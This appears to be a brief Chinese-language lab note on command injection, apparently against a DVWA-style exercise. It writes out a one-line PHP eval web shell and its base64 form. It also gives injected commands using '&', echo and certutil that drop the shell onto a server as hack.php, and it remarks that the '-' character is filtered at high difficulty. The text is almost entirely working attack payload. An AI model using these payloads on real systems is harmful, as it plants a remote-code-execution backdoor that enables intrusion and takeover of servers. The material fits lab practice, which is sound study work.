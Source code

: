 
```
一句話木馬
<?php @eval($_POST[x]); ?>



轉base64
PD9waHAgQGV2YWwoJF9QT1NUW3hdKTsgPz4=


輸出text.txt
x & echo PD9waHAgQGV2YWwoJF9QT1NUW3hdKTsgPz4= >text.txt



decode 到 hack.php
x & certutil -decode text.txt hack.php


```


high 難度 字元(-)  被過濾了。需要使用其他方法。